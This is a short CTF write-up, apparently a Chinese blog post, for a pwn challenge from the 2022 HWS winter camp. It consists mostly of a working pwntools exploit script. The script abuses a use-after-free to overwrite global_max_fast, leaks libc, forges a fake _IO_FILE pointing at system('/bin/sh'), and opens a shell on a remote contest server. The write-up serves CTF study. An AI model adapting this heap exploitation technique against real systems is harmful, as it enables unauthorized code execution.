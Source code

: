 ```yaml
---
layout: post
title: "2022HWS冬令营 送分题 wp"
date:   2022-2-3
tags: [ctf_wp]
comments: true
author: wsxk
---
```


这道题是原题

首先利用uaf漏洞以及large chunk，修改fastbin的大小（改成很大
然后覆盖IO_file


    from pwn import *
    from LibcSearcher import *

    #io=remote('47.96.90.40',12345)
    #io=process('./pwn')
    #ld_path = "/home/wsxk/Desktop/glibc/glibc-2.27/64/lib/ld-2.27.so"
    #libc_path = "/home/wsxk/Desktop/ctf/libc-2.27.so"
    #libc_path = "/home/wsxk/Desktop/glibc/glibc-2.27/64/lib/libc-2.27.so"
    #io = process([ld_path, "./pwn"], env={"LD_PRELOAD":libc_path})
    io = remote('1.13.162.249',10001)
    elf = ELF('./pwn')
    libc = ELF('libc-2.27.so')
    context.log_level = 'debug'

    io.recvuntil('Now you can get a big box, what size?\n')
    io.sendline(str(0x1450-0x20))
    io.recvuntil("Now you can get a bigger box, what size?\n")
    io.sendline(str(20480))
    io.recvuntil("Do you want to rename?(y/n)\n")
    io.sendline('y')
    #gdb.attach(io)

    io.recvuntil('Now your name is:')
    main_arean = u64(io.recv(6).ljust(8,b'\x00'))#-96
    libc_base = main_arean -96-0x3EBC40
    print('main_arena:'+hex(main_arean))
    print('libc_base:'+hex(libc_base))
    io.sendline(p64(main_arean)+p64(main_arean+0x1ca0-0x10))#max_fast

    target_addr = libc_base + libc.symbols['_IO_list_all']
    io.recvuntil("Do you want to edit big box or bigger box?(1:big/2:bigger)\n")
    io.sendline('1')
    io.recvuntil("Let's edit, ")
    bin_bash = libc_base + 0x1b40fa
    io_str_jumps = libc_base + 0x3e8360

    #gdb.attach(io)
    fake_io_file = p64(0)*2
    fake_io_file += p64(0)+p64(bin_bash+1)
    fake_io_file += p64(0)*2
    fake_io_file += p64((bin_bash-100)//2)+p64(0)
    fake_io_file = fake_io_file.ljust(0xb0,b'\x00')
    fake_io_file += p64(0xFFFFFFFFFFFFFFFF) + p64(0)*2
    fake_io_file += p64(io_str_jumps)
    fake_io_file += p64(libc_base+libc.symbols['system'])
    io.sendline(fake_io_file)

    io.recvuntil('bye')
    io.interactive()

